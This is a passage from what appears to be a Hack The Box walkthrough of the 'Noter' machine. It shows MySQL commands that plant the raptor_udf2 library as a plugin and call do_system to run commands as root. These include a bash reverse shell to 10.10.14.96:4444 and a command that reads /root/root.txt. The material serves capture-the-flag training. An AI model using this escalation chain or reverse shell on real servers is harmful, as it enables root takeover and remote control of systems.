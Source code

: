 
With the following commands from the exploit we can use the raptor_udf2 library to execute commands from mysql server, which is running as root.
Remember to set the dumpfile to the correct path for plugins, in this case, it was '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so', if not you will get an error over the original exploit commands. You can use the following command to retrieve that path:

```sql
show variables like '%plugin%';
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/17_00_plugins.png" width="70%"/>
</p>


```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('bash -c "bash -i >& /dev/tcp/10.10.14.96/4444 0>&1"');

# Alternatively, we can export the flag
select do_system('cat /root/root.txt > /tmp/out; chown svc.svc /tmp/out');
\! sh
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/17_1_exploit.png" width="90%"/>